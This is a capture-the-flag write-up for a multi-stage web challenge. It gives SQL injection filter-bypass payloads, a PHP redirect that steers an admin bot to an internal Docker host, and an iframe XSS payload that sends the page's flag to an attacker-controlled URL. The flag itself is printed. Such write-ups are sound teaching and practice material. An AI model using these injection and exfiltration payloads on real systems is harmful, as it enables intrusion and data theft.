 **Part - I:**

On looking into the source, one can find a text file, that'll reveal this is a sqli. The users are allowed to enter any query they want(there are some filters though) after select. 

`Select <your input>`.

The goal is to select "inkypinky" as id.

The intended method is to use lcase function along with unicode characters that change to ascii on to bypass the filters.

The unicode character [K](https://www.compart.com/en/unicode/U+212A) can be used here.

Payloads:
 - `lcase('inKypinKy')id from dual`
 - `select X'696e6b7970696e6b79' as id from dual`
 - `case when 0=1 then 'from' else chr(105,110,107,121,112,105,110,107,121) end as id`

**Part - II:**

After completing the SQLi phase, you'll be redirected to ./reception.php. On checking the source code of this, you'll be able to find a hidden text file that has the following.

```
version: '2'

services:
   web:
      # build the web server here

   node:
      # implement an A(dm)I(n) bot that would send only funny links to $(YOU_KNOW_WHO)

   db:
      #  database to be added here
```

This is a crude docker-compose.yml file. The web-server is running under the name `web`. One technique to access the internal ip of docker is use the service name. i.e, http://web will correspond to the internal ip of the web service. Since it is a docker and no specific networks have been provided http://127.0.0.1 and http://localhost won't work. 

Other than this, there are three links: 
 - ./url.php - urls for admin bot to visit
 - ./user.php - tokens/session ids to be created by admin bot
 - ./flag.php - admin bot submits token and gets flag

 To get the flag, we need to create a token. The timeout for the bot is also set to be very less(1 second). This rules out many options(the page might take some time to load if one intends to use js for CSRF) normally uses in a CTF. 

 But when we use a 302 status code, the page is redirected to its target without the page from your server fully rendering. The intended way is to access the web server using http://web by redirecting from your server.

```php
<?php
header("location:http://web/user.php?session=1111-22222-1234&sub=submit");
```

This would redirect to the bot to create a new id. 


**Part - III:**

The next part would be to exfiltrate the flag from flag.php. Even here the same method(http://web) can be used to access the server as admin. 

The flag can be exfiltrated using the XSS vulnerability present in ./flag.php. The word `script` is blocked. But any other element ought to work. 

The using `frame` and `onload` attribute, the flag can be obtained. There surely are other methods though.

`<iframe id="a" src="http://web/flag.php?session=1111-22222-1234&sub=submit" onload=window.location="<URL>?"+btoa(document.getElementById('a').contentWindow.document.body.innerText)>`

would load the flag on the page and exfiltrate to your server. Being a internal docker connection, this would load much faster(making the bot's 1 second timeout useless).

Putting it together with the redirect on your server:

```php
<?php
header("location:http://web/flag.php?session=%3Ciframe+id%3D%22a%22+src%3D%22http%3A%2F%2Fweb%2Fflag.php%3Fsession%3D1111-22222-1234%26sub%3Dsubmit%22+onload%3Dwindow.location%3D%22%3CURL%3E%3F%22%2Bbtoa%28document.getElementById%28%27a%27%29.contentWindow.document.body.innerText%29%3E%26sub%3Dsubmit");
```

## Flag:

inctf{p3op13_persons_c7f_pe0p13_9986000}
